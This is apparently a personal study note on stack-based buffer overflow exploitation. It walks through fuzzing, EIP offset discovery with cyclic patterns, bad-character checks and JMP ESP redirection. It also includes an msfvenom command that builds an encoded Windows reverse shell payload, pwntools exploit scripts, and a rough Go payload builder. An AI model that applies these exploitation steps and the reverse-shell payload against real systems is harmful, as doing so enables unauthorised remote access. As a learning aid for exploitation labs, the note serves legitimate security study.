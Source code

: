# Stackbased Buffer Overflows

## Finding the vulnerability:
1. Source code review
	1. Find vulnerable functions
2. [Fuzzing](https://en.wikipedia.org/wiki/Fuzzing)
	1.  Fuzz any input fields
3. Reverse Engineering
	1. Find vulnerable functions

Before getting excited consider if the target machine is protected with [[Binary-Exploitation-Protections]]

## Fuzzing HTTP protocol
[Microsoft TCPView](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview) if debugger network listening does not work.

1. Use [[Wireshark]] to monitor traffic sent to application and follow TCP stream to show reply. 
2. [[Useful_Python]] PoC 
3. Run debugger Administrative priveleges attached to running of the vulnerable application
	1. Or for Windows [tcpview if immunity debugger listen column unavaliable](https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview)
	2. Attach process with immunity debugger

## Buffer Overflow Exploitation
Be aware alot of restarting required.

Note the  Endianess 

1. Enumerate till location EIP
	1. Binary Tree analysis - use pwntools `cyclic` or `msf-pattern_create -l $int`
	2. Update PoC
1. Check offset(skip binary tree analysis) with `msfpattern_offset -l $int -q $offsetpattern` or pwntools `offset`. From EIP the offset is located at relative memory address higher than EIP - closer to 0x0!.
	1. Add EIP variable to find exact EIP address.
1. Locating space for shellcode
1. Check for bad characters
1. Redirect the execution to flow: - Remember Endianness
	
Due address changing either due crashing-and-restarting application or ASLR ... we can just hardcode a static return address in general in modern binary exploitation.

6. Find a return address
7. Leverage a static address that contains a `JMP ESP`("jumps" to addresws pointed to by ESP) - we redirect EIP to this adderss
	1. Must be static - no libraries compiled with ASLR support
	2. Not an address within the region to be occupied by the shellcode
8. Encoded payloads from [[MSFvenom-Payloads]] are prepended with a decoder stub to decode itself using memory. GetPC routine assmebly instruction to gather memory location of the decoder stub.
	1. shikata_ga_nai write to top of the stack potentially corrupting the address pointed at by the ESP register meaning that the GetPC route execution changes the decoder itself.
	
To avoid this final issue you could:
1. Adjust ESP backward using assemble instructions _DEC ESP_, _SUB ESP, 0xXX_, before executing the decoder
2. Create large area for JMP ESP and NOP sled

## Consideration

One Consideration depending on the application and the type of vulnerability, there may be restrictions on the length of input passed to the application. In some cases, increasing the length of a buffer may result in a completely different crash. This is due the larger buffer overwrites additional data on the stack that is used by the target application, but could provide extra space for shellcode.

Another being **ExitThread** API with [[MSFvenom-Payloads]] using `EXITFUNC=thread`:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10. LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
This avoid crashing the application when you terminate the shell.

## Tooling

## pwntools
Enumeration
```bash
r < <(cyclic $INT) # cyclic input of $INT amount
cyclic -l EIP_Address # find out the amount of bytes of input need to expploit the binary
disassemble shell # find out where the shell function is in memory to set it to IP
# EITHER
# IF MANUAL WAY REMEMBER CORRECT ADDRESS LENGTH AND ENDIANNESS
# L->R = littleEndian; R->L = bigEndian
python -c 'print "A"*$INT + "$ADDR"' | /vuln/bin
python -c 'import struct;print "A"*44 + struct.pack("< ", $ADDR)' | /vuln/bin
```

Scripting the buffer overflow
```python
from pwn import *
proc = process('/vuln/bin')
elf = ELF('/vuln/bin')
shell_func = elf.symbols.shell # CHANGE WHATEVER FORMAT REQUIRED
payload = fit({$INT: shell_func })
proc.sendline(payload)
proc.interactive()
```




## APPENDIX:

\\xCC as a graceful break for binex than crashing.

// ENDIANNESS tester
```c
#include <stdio.h>
union s{
	int n;
	char b;
}x;
void main(){
	x.n = 0x4142;
	if(x.b == 0x42){
		printf("Little Endian\n");
	}
	else{
		printf("Big Endian\n");
	}
}
```


```go
bof := strings.Builder{}
shell := ` `

offset := 608
rip := '0x' //store it to not overflow your own memory
formatRIP := //nice formatting hex function
nopSled := `\x90` 
safeJunk := `\xCC`
* someamount
payloadSize := offset + 8
shellSize := len(shell)
nopSize := len(nopSled)
padding := 'A' * (payloadSize - shellSize - nopSize)

bof.WriteString(nopSled, shell, padding, formatRIP)

payload := bof.String()

fmt.Printf("%s", payload)
```